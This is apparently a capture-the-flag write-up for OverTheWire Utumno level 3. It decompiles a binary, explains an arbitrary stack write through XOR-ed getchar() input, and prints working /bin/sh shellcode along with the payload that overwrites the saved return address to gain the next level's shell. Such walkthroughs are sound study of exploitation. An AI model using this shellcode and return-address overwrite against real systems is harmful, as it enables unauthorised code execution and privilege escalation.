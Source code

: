# Overthewire Utumno Level 3 Writeup

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx@2
  int v5; // [sp+8h] [bp-3Ch]@2
  int v6; // [sp+20h] [bp-24h]@2
  int v7; // [sp+38h] [bp-Ch]@1
  signed int i; // [sp+3Ch] [bp-8h]@1

  v7 = 0;
  for ( i = 0; ; ++i )
  {
    v7 = getchar();
    if ( v7 == -1 || i > 23 )
      break;
    *((_BYTE *)&v5 + i) = v7;
    *((_BYTE *)&v5 + i) ^= 3 * (_BYTE)i;
    v3 = *((_BYTE *)&v5 + i);
    *((_BYTE *)&v6 + v3) = getchar();
  }
  return 0;
}
```

Above is the decompiled version of the program from IDA. The program demands input and puts it somewhere on the stack.
I need to simplify the equations above.

```
*((_BYTE *)&v6 + getchar() ^ (3 * i)) = getchar()
```

I control getchar() so I can write anything into any address.
Since saved eip is placed on ebp + 0x4, after some calculations the chars I need are `\x2c`, `\x2e`, `\x28` and `\x26`.
2 addresses consist a round. The first getchar() forms the address you want to write. The second one is the actual content.

Export the shellcode and get the address:

```bash
$ export SC=$(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
$ getenv SC ./utumno3
SC will be at 0xffffdef9
$ (python -c 'print "\x2c\xf9\x2e\xde\x28\xff\x26\xff"+"\n"*15';cat)|./utumno3
/usr/bin/whoami
utumno4
```

Enjoy the flag.
